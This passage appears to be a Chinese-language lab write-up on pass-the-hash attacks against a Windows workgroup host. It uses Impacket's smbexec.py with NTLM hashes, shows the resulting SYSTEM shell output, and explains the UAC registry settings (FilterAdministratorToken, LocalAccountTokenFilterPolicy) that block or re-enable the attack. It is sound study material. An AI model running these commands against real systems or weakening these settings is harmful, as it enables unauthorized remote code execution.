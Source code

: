 ```bash

#[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

#工作组管理员
python smbexec.py administrator@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b                                                                 1 ⨯
#Impacket v0.11.0 - Copyright 2023 Fortra

#[!] Launching semi-interactive shell - Careful what you execute
#C:\Windows\system32>whoami
#nt authority\system
```

通过[domain-user-accounts-active-directory-user-account](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction#domain-user-accounts-active-directory-user-account)了解到管理员组的域用户拥有管理员的所有权限。管理员组的daem0nu执行失败的原因是[UAC(User Account Control)](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works)，管理员组中除了administrator外的用户，在登入windows时，会以标准用户权限完成大多数任务，这些用户与administrator不同的是，系统将这些用户的admin token移除了，以最低权限运行程序；同理因为administrator具有admin token所以UAC就不会限制其。当这些用户进行的操作涉及管理员权限时，系统会将用户从用户桌面转换到安全桌面，并弹出一个**是否同意操作的提示框**或者**需要输入管理员凭据的提示框**，如下图

![[credential prompt.png]]
![[consent prompt.png]]

## 修改UAC设置

[user-account-control-settings-list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/settings-and-configuration?tabs=reg#user-account-control-settings-list)中介绍了UAC设置，为了防止默认的管理员用户直接以高权限运行，我们可以打开其UAC认证，修改注册表
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`的`FilterAdministratorToken`为1即可，此时进行PTH攻击将失效

```bash
python smbexec.py administrator@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b           

#Impacket v0.11.0 - Copyright 2023 Fortra

#[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```


由于[UAC remote restriction](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction#how-uac-remote-restrictions-work)的限制，工作组中的其他管理员用户在使用类似SMB的远程服务时不会以完全管理员的身份连接，需要进行远程桌面登入到计算机才能提升权限。微软在[disable-uac-remote-restrictions](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction#how-to-disable-uac-remote-restrictions)指出了如何关闭UAC remote restriction

>1. win + r 打开 regedit
>2. 找到`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`目录
>3. 如果没有**LocalAccountTokenFilterPolicy**属性，就以该名字新建一个，类型为**DWORD**，将其值设为1

关闭之后daem0nu即可登入成功
```bash
python smbexec.py daem0nu@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b      
#Impacket v0.11.0 - Copyright 2023 Fortra

#[!] Launching semi-interactive shell - Careful what you execute
#C:\Windows\system32>whoami
#nt authority\system
```

